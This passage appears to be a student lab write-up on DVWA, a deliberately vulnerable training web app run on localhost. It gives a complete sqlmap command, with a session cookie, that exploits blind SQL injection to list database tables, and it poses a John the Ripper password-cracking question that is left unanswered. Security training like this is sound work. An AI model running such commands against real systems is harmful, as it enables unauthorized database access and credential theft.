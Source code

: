 **Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

```
python sqlmap.py -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="PHPSESSID=c3243e5dcda438603c9d3aece31e8670; security=low" -D dvwa --tables
```

The result after waiting for sqlmap

<img alt="Screenshot" src="./img/task2/7.png">

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
